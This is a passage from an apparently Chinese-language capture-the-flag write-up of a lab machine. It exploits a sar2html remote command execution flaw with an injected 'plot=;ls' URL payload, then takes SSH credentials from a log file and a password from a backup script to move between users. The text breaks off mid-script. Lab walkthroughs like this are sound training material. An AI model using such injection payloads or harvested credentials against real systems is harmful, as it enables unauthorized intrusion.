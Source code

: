 ```

这里找了好久，眼镜都花了,瞄了一眼大佬的walkthrough，原来还有个```_test```目录我没有扫描出来，尼玛。。。

```http://10.10.109.157/joomla/_test```是一个sar2html程序，此程序存在远程执行漏洞，见[这里](https://www.exploit-db.com/exploits/47204)

我们使用payload```http://10.10.109.157/joomla/_test/index.php?plot=;ls%20-alh```

然后点击```select host```，在底下的select框里就会回显我们的命令

期中有一个文件叫log.txt，这个也是第七题的答案
```
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 # pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

拿到ssh凭证：```basterd:superduperp@$$```

user.txt在stoner的目录下，看来要横向提权到stoner


在basterd家目录有一个backup.sh文件,源码如下，文件暴露了stoner的密码：```superduperp@$$no1knows```
```
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
# superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG
